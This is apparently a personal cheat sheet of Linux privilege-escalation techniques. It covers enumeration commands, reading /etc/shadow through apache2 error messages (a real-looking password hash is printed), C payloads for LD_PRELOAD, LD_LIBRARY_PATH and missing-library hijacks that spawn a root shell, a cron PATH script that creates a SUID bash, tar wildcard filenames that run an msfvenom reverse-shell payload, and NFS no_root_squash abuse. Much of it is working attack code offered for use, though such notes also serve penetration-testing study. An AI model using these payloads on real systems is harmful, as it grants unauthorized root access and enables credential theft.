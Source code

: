 # LINUX Privesc notes 

- linux smart enum script - https://github.com/diego-treitos/linux-smart-enumeration, linpeas can be used too
- reverse shell suggester suggester - https://github.com/mthbernardes/rsg
- Cheatsheet - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

## kernel exploit 
- searchsploitlinuxkernel 2.6 privesc debian
- ./linux-exploit-suggester-2.pl –k 2.6.32 (https://github.com/jondonas/linux-exploit-suggester-2)

## services running as root
- ps aux | grep '^root' (to list services running as root)
- use --version flag to get the exact version of the service 
- search exploits - exploitdb,google,github etc 

## weak file perms 
- find /etc -maxdepth 1 -writable -type f (list all wirtable files)
- find /etc -maxdepth 1 -readable -type f (list all readable files)
- find / -executable -writable -type d 2- /dev/null (list directories that can be written to)

-check the /etc/shadow and the /etc/password file, if they are read/write-able (the hash in /etc/password has precedence over /etc/shadow)
- we can also append a new row to /etc/passwd for a new user with uid,gid same as root

## backups 
- valuable info as backups 
- dirs to check - /home/user, /, /var/backups, /tmp

## sudo 
- sudo su (if no restrictions on programs that can be executed with sudo)
other ways:
$ sudo -s
$ sudo -i
$ sudo /bin/bash
$ sudo passwd

- sudo -l (list programs this user can & cannot execute with sudo priv)
- then use https://gtfobins.github.io/ to get escape sequence of that program 

## using errors to view restricted files
```
$ sudo apache2 -f /etc/shadow 
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

## SUID & SGID
- find / -type f -a \\( -perm -u+s-o -perm -g+s\\) -exec ls -l {} \; 2> /dev/null (to find suid,sgid files)
- get names and versions of these programs and search for their exploits searchsploit, github, google

## Environment variables 
### LD_PRELOAD (loads the shared obj specified before others)
- sudo -l (check env_reset and whether env_keep includes LD_PRELOAD)
- create a file like:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");}
```
- compile it to .so (shared object)
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```
- sudo LD_PRELOAD=/tmp/preload.so apache2 (running any sudo program like this will give root shell)

### LD_LIBRARY_PATH (searches for shared libraries in given path)
- ldd /usr/sbin/apache2 (prints the shared libraries used by a program)
- choose one shared library (its a hit or miss so try diff libs till it works)
- create a file 
```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");}
```
- compile it same name as shared lib 
```
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```
- sudo LD_LIBRARY_PATH=. apache2 (giving path as current dir and root shell is obtained)

## CronJobs
- scripts that can be run as root in time intervals
- /var/spool/cron/ or /var/spool/cron/crontabs/ (user crontab)
- /etc/crontab (system wide crontabs)
- try to write to script run as cronjob or replace it with own script
If a cronjob program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cronjob for eg:
```
#!/bin/bash 
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
 ``` 
then give it executable permissions (ensure that it is in a directory thats listed in PATH before the actual cronjob scrript)

## Wildcard and Filenames
- --option=key=value (we can create filenames like this to give complex options GTFOBins for more options)
- if a command in the cronjob script runs with wildcard char * 
eg:
```
$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
gtfobins tells us that tar can use checkpoint flag
We use msfvenom to make an elf payload for reverse shell
and create two files :
```
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
```
listening with nc will give root shell

## SUID/SGID contd
- check suid/sgid files
### shared objects
- if a file name looks like it uses shared objs ('so') that it cant find, run strace on it 
- if it looks for a .so file and isnt able to find it, compile our own with code to spawn a root shell with name as the .so script wants 
eg:
```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
    setuid(0);
    system("/bin/bash -p");}
```
running suid script will give root

### incomplete PATH 
- if it doesnt use full sys path for a command, compile code to spawn root with name as that command in a dir thats early in $PATH
similar code to that above 
running suid script will give root

### export functions ( bash < 4.2-048)
- if bash lower than 4.2-048 
in eg: a suid script uses /usr/bin/service 
- we can create func with name /usr/bin/service and export it 
```
$ function /usr/sbin/service { /bin/bash -p; }
$ export –f /usr/sbin/service
```
running the suid script will give root

## SHELLOPTS & PS4

## Look for creds in bash_history and config files

## NFS
- if a mount dir has option no_root_sqaush 
- move a rev shell script with suid bit set in that dir from ur pc 
- exxecuting that will give root shell 
